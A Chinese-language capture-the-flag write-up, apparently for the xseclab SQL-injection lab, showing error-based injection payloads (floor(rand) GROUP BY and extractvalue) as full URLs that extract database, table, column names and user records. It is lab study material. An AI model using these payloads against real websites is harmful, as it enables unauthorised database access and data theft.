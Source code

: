 ```bash
```
## 图片宽字节注入

在页面上看不出显示的结果，要在burpsuite上查看
网上说是图片宽字节注入，一直抓不到图片的数据包，只好作罢

## 报错注入
[一些常见的报错注入]( http://blog.csdn.net/mvcandroid/article/details/73995898 )
报错注入语句
```bash
select count(*),concat(0x3a,0x3a,(注入语句),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a
```
得到数据库名
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' union select count(*),concat(0x3a,0x3a,(select database()),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
得到表名
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php
?username=admin' union select count(*),concat(0x3a,0x3a,(select distinct table_name from information_schema.columns where table_schema=database() limit 0,1),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23

```
得到字段名
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' union select count(*),concat(0x3a,0x3a,(select column_name from information_schema.columns where table_name=0x6c6f67 limit 0,1),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
得到表中有多少条数据
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' union select count(*),concat(0x3a,0x3a,(select count(*) from motto),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
脱裤失败
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php
?username=admin' union select count(*),concat(0x3a,0x3a,(select username from motto limit 0,1),0x3a,0x3a,floor(2*rand(0)))a FROM information_schema.tables GROUP BY a %23
```
尝试别的语句
```bash
http://lab1.xseclab.com/sqli7_b95cf5af3a5fbeca02564bffc63e92e5/index.php?username=admin' and extractvalue(1, concat(0x3a,(SELECT distinct concat(0x3a,username,0x3a,motto,0x3a,0x3a) FROM motto limit 3,1)))%23
```
